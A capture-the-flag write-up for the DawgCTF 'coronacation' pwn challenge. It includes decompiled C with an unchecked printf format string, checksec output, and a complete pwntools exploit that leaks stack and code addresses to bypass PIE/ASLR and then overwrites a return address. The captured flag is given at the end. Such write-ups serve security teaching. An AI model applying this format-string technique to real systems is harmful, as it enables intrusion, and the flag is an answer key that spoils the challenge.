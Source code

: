 NOTE: To solve this challenge i work with my teammate Enrico. He wrote the exploit (python 2) first and got the flag. 
In my writeup i put an optimized exploit for python 3.

Play game:
```c
__int64 play_game()
{
  __int64 result; // rax
  char s; // [rsp+0h] [rbp-40h]

  puts("Welcome to this choose your own adventure game!");
  puts("You're President Ronald Drump and are tasked with leading the nation through this crisis.");
  puts("So what do you want to do?");
  puts("1. Close the borders.");
  puts("2. Tell everyone not to panic. It's just the Fake News media freaking out.");
  fgets(&s, 50, _bss_start);
  printf("You chose: ", 50LL);
  printf(&s);
  if ( s == 49 )
    return close_borders();
  result = 50 - (unsigned int)(unsigned __int8)s;
  if ( s == 50 )
    result = no_panic();
  return result;
}
```
`Close borders` and `no panic` functions contains the same instruction, i used close borders. 

Close borders:
```c
__int64 close_borders()
{
  __int64 result; // rax
  char s; // [rsp+0h] [rbp-40h]

  puts("\nSo we closed our borders. Weren't we doing that anyway with the wall?");
  puts("It's still spreading within our borders what do we do now?");
  puts("1. Reassure everyone the country can handle this. Our healthcare system is the best. Just the greatest.");
  puts("2. Make it a national emergency. Show the people we don't need Bernie's healthcare plan.");
  fgets(&s, 50, _bss_start);
  printf("You chose: ", 50LL);
  printf(&s);
  if ( s == 49 )
    return lose3();
  result = 50 - (unsigned int)(unsigned __int8)s;
  if ( s == 50 )
    result = lose4();
  return result;
}
```

Checksec:
```shell
[*] '/home/marco/Desktop/umbccd/coronacation/coronacation'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

In order to call win function, we need two memory leak to bypass PIE / ASLR.
We used te first format string (play game function) to leak the rbp (stack section leak) and return address(.text section address).
Then with the second format string (in `close_border`), we overwrite the return address with win address.

Exploit:
```python
from pwn import *

#p = remote('ctf.umbccd.io', 4300)
p = process('./coronacation')
print(p.recvuntil('out.\n').decode())
payload = (('1 ').encode())
payload += (('%14$p %15$p').encode())
p.sendline(payload)
print(p.recvuntil('chose: 1 ').decode())

stm = p.recvuntil('\n').decode()
rbp = int(stm.replace('\n', "").split(' ')[0], 16)
ret_stack = rbp-0x8
ret = int(stm.replace('\n', "").split(' ')[1], 16)

win = ret-0x31f
towrite = win & 0xffff
print('to write: ', (towrite))
print('Leaked base pointer: ', hex(rbp), 'stack address return pointer: ', hex(ret_stack))
print('leaked return address: ', hex(ret), ' win function at: ', hex(win))
print(p.recvuntil('plan.').decode())

padding = '0'*(8-len(str(towrite))) + str(towrite)

payload2 = ("%" + padding + "lx%8$hn").encode()
payload2 += p64(ret_stack)
print(payload2)
p.sendline(payload2)
print(p.recvuntil('}'))

```

# FLAG
`DawgCTF{st@y_Th3_f@ck_h0m3}`
